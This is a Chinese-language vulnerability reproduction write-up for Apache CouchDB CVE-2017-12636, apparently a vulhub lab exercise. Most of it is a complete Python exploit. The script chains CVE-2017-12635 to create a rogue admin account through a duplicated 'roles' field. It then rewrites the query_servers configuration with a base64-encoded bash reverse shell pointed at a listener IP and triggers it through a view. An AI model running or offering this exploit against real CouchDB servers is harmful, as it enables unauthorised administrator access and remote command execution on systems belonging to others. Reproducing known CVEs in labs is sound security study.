


# Couchdb 任意命令执行漏洞（CVE-2017-12636）

> 漏洞说明

Apache CouchDB是一个开源数据库，专注于易用性和成为"完全拥抱web的数据库"。它是一个使用JSON作为存储格式，JavaScript作为查询语言，MapReduce和HTTP作为API的NoSQL数据库。应用广泛，如BBC用在其动态内容展示平台，Credit Suisse用在其内部的商品部门的市场框架，Meebo，用在其社交平台（web和应用程序）。

在2017年11月15日，CVE-2017-12635和CVE-2017-12636披露，CVE-2017-12636是一个任意命令执行漏洞，我们可以通过config api修改couchdb的配置query_server，这个配置项在设计、执行view的时候将被运行。


> 前提条件

版本：Apache CouchDB < 1.7.0	Apache CouchDB < 2.1.1


> 利用工具

[EXP](https://github.com/vulhub/vulhub/blob/master/couchdb/CVE-2017-12636/exp.py)


> 漏洞复现

Couchdb 2.x和和1.x的API接口有一定区别，利用方式也不同。但命令执行需要登录用户触发，可以根据CVE-2017-12635创建管理员用户。

开启监听



修改EXP中target、command及对应版本version(1或2)

```python
#!/usr/bin/env python3
import requests
import json
import base64
from requests.auth import HTTPBasicAuth

target = 'http://192.168.40.77:5984'
command = rb"""sh -i >& /dev/tcp/192.168.40.1/4321 0>&1"""
version = 1

session = requests.session()
session.headers = {
    'Content-Type': 'application/json'
}
# session.proxies = {
#     'http': 'http://127.0.0.1:8085'
# }
session.put(target + '/_users/org.couchdb.user:wooyun', data='''{
  "type": "user",
  "name": "wooyun",
  "roles": ["_admin"],
  "roles": [],
  "password": "wooyun"
}''')

session.auth = HTTPBasicAuth('wooyun', 'wooyun')

command = "bash -c '{echo,%s}|{base64,-d}|{bash,-i}'" % base64.b64encode(command).decode()
if version == 1:
    session.put(target + ('/_config/query_servers/cmd'), data=json.dumps(command))
else:
    host = session.get(target + '/_membership').json()['all_nodes'][0]
    session.put(target + '/_node/{}/_config/query_servers/cmd'.format(host), data=json.dumps(command))

session.put(target + '/wooyun')
session.put(target + '/wooyun/test', data='{"_id": "wooyuntest"}')

if version == 1:
    session.post(target + '/wooyun/_temp_view?limit=10', data='{"language":"cmd","map":""}')
else:
    session.put(target + '/wooyun/_design/test', data='{"_id":"_design/test","views":{"wooyun":{"map":""} },"language":"cmd"}')
```

执行脚本，成功反弹shell



